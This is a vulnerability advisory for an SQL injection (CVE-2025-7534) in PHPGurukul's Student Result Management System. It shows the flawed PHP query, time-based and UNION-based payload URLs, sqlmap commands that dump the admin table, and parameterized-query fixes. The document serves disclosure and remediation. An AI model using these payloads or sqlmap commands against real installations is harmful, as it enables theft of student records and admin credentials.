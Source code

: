 **\[sql-injection] in \[Student Result Management System] <= \[v2.0]**

---

### 👨‍💻 **BUG Author:**

4m3rr0r

**CVE-2025-7534**

---

### 📦 **Product Information:**

* **Vendor Homepage:** [https://phpgurukul.com](https://phpgurukul.com)
* **Software Link:** [https://phpgurukul.com/student-result-management-system/](https://phpgurukul.com/student-result-management-system/)
* **Affected Version:** <= v2.0
* **BUG Author:** 4m3rr0r

---

### 🛠 **Vulnerability Details**

* **Type:** Time-Based & UNION-Based SQL Injection
* **Affected URL:** `http://localhost/srms/notice-details.php?nid=1`
* **Vulnerable Parameter:** `nid` (GET)
* **Vulnerable File:**

  * **File Name:** `notice-details.php`
  * **Path:** `/srms/notice-details.php`

---

### 🧨 **Vulnerability Type**

* **SQL Injection Vulnerability**
* **CWE ID:** CWE-89: Improper Neutralization of Special Elements used in an SQL Command
* **Severity Level:** CRITICAL
* **CVSS Score:** 9.1 (Base Score)

---

### 🧬 **Root Cause**

The application constructs SQL queries by directly inserting unvalidated user input into SQL statements without using prepared statements or escaping mechanisms. This allows attackers to inject arbitrary SQL commands.

```php
$noticeid = $_GET['nid'];
$sql = "SELECT * from tblnotice where id='$noticeid'";
$query = $dbh->prepare($sql);
$query->execute();
```

---

### ⚠️ **Impact**

* Unauthorized access to all database contents
* Exposure of sensitive student data and admin credentials
* Possible privilege escalation (admin takeover)
* Full database extraction via automated tools (e.g., sqlmap)

---

### 📋 **Description**

1. **Vulnerability Details:**

   * SQL query is dynamically constructed using unsanitized input (`$_GET['nid']`)
   * No validation, escaping, or parameter binding
   * Affects both UNION and time-based SQLi techniques

2. **Attack Vectors:**

   * Blind SQL injection with time delays (`SLEEP()`)
   * UNION-based injection to extract DB structure and contents

3. **Attack Payload Examples:**

   * Time-Based Injection:

     ```
     http://localhost/srms/notice-details.php?nid=1' AND SLEEP(5)-- -
     ```
   * UNION-Based Injection:

     ```
     http://localhost/srms/notice-details.php?nid=1' UNION ALL SELECT NULL,CONCAT(0x7161,USER(),0x7171),NULL,NULL-- -
     ```

---

### 🔬 **Proof of Concept**

#### ✅ Confirmed Using `sqlmap`

```bash
sqlmap -u "http://localhost/srms/notice-details.php?nid=1" --dbs
```

![Databases ](./Images/2025-07-10_03-26.png) 

Output:

* Injection Type: Time-based and UNION-based
* Database Extracted: `srms`
* Admin table dumped via:


```bash
sqlmap -u "http://localhost/srms/notice-details.php?nid=1" -D srms -T admin --dump
```

![Databases ](./Images/2025-07-10_03-29.png) 

---

### 🛡 **Suggested Remediation**

* Use **parameterized queries** (PDO with bound parameters)
* Validate and sanitize all user input
* Avoid dynamic SQL wherever possible
* Example secure code:

```php
$noticeid = $_GET['nid'];
$sql = "SELECT * FROM tblnotice WHERE id = :nid";
$query = $dbh->prepare($sql);
$query->bindParam(':nid', $noticeid, PDO::PARAM_INT);
$query->execute();
```

---

### 🔐 **Security Recommendations**

* Implement the **Principle of Least Privilege**
* Store passwords hashed and salted
* Conduct regular security audits
* Add a **Web Application Firewall (WAF)**
* Consider using modern PHP frameworks (Laravel, Symfony)

---

### 📚 **References**

* [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
* [CWE-89: SQL Injection](https://cwe.mitre.org/data/definitions/89.html)

---

### 🕐 **Mitigation Timeline**

| Phase      | Action                         |
| ---------- | ------------------------------ |
| Immediate  | Use prepared statements        |
| Short-term | Add input validation           |
| Long-term  | Adopt ORM (e.g., Eloquent ORM) |

---


